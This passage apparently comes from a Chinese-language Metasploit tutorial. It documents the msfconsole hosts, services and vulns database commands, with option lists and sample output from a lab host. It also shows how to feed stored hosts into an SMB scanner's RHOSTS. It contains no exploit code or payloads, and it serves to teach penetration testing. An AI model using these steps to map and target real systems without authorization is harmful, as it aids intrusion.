10.10.10.101  00:0c:29:c9:ce:f0  Linux    2.4.X  server

msf6 > hosts 

address       mac                os_name  os_sp  purpose
-------       ---                -------  -----  -------
10.10.10.101  00:0c:29:c9:ce:f0  Linux    2.4.X  server
```


**添加一个主机**

```
msf6 > hosts -a 10.10.10.102 
[*] Time: 2025-02-24 15:36:25 UTC Host: host=10.10.10.102

address       mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----  -------  ---------  -----  -------  ----  --------
10.10.10.101  00:0c:29:c9:ce:f0        Linux               2.4.X  server
10.10.10.102
```


**删除一个主机**

```
msf6 > hosts -d 10.10.10.102 

address       mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---  ----  -------  ---------  -----  -------  ----  --------
10.10.10.102

[*] Deleted 1 hosts
```


**修改信息**

```
msf6 > hosts -n RedHat 10.10.10.101 

address       mac                name    os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----    -------  ---------  -----  -------  ----  --------
10.10.10.101  00:0c:29:c9:ce:f0  RedHat  Linux               2.4.X  server
```


**将数据库的信息用于模块**

```
msf6 auxiliary(scanner/smb/smb_version) > show options 

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https:// ...
   RPORT                     no        The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > hosts -S "Linux" -R 

address       mac                name    os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----    -------  ---------  -----  -------  ----  --------
10.10.10.101  00:0c:29:c9:ce:f0  RedHat  Linux               2.4.X  server

RHOSTS => 10.10.10.101
```


### services

格式：

```
services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]
```


详细选项：

```
-a, --add 						添加服务而非搜索
-c, --column <列1,列2> 		   仅显示指定列
-d, --delete 					删除服务而非搜索
-h, --help 						显示本帮助信息
-O, --order <列编号> 			  按指定列号排序结果
-o, --output <文件名> 			  将结果以 CSV 格式输出到文件
-p, --port <端口> 			   按端口号搜索服务
-r, --protocol <协议> 		   指定服务协议类型 [tcp|udp]
-R, --rhosts 					将搜索结果设为后续攻击的 RHOSTS 参数
-s, --name <名称> 			  添加服务时指定服务名称
-S, --search <过滤条件> 		 按关键词过滤服务
-u, --up 						仅显示运行中的服务
-U, --update 					更新现有服务数据
```


### vulns 

格式：`vulns [地址范围]`


详细选项：

```
-d, --delete            	删除漏洞（官方未正式支持）  
-h, --help              	显示本帮助信息  
-i, --info              	显示漏洞详细信息  
-o, --output <文件名>        将结果导出为 CSV 文件  
-p, --port <端口>            按端口号筛选漏洞  
-R, --rhosts            	将搜索结果设为后续攻击的 RHOSTS 参数  
-S, --search <关键词>        按关键词过滤漏洞  
-s, --service <服务名>       按关联服务名称筛选漏洞  
```


示例：

```
  vulns -p 1-65536          # 列出所有关联服务的漏洞
  vulns -p 1-65536 -s http  # 筛选 HTTP 服务相关的漏洞（任意端口）
```

